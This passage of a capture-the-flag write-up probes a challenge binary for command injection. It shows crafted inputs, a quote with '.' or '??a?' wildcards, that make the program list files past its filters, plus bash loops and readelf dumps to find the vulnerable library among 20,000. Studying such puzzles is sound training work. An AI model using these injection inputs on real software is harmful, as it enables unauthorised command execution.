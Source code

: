 We can clearly inject on this...

```
INPUT :5
This is lib_5 file.
How do you find vulnerable file?
".
20000
20000_so
20000_so.tar.gz
flag
```

We can have `..`, `/`, and `?` available to us. We can use `?` as a wildcard!

```
INPUT : 5
This is lib_5 file.
How do you find vulnerable file?
" ??a?
flag
```

But unfortunately, it seems impossible to bypass the filters to inject a command to print the flag.

Let's take a step back.

```bash
for i in {1..20000}; do
	echo "$i:" >> out
	echo -e "$i\n\"." >> out
done	
```

We check output, and some files do `ls`, some do not. So, let's figure out exactly what's going on.

```bash
for i in {1..20000}; do
	echo "$i" >> strs.txt
	readelf -p .rodata "lib_$i.so" >> strs.txt
done
```

Sample of output

```
1

String dump of section '.rodata':
  [     0]  This is lib_1 file.
  [    18]  How do you find vulnerable file?
  [    39]  exit
  [    3e]  bin
  [    42]  sh
  [    45]  bash

2

String dump of section '.rodata':
  [     0]  This is lib_2 file.
  [    18]  How do you find vulnerable file?
  [    39]  exit
  [    3e]  bin
  [    42]  sh
  [    45]  bash

```
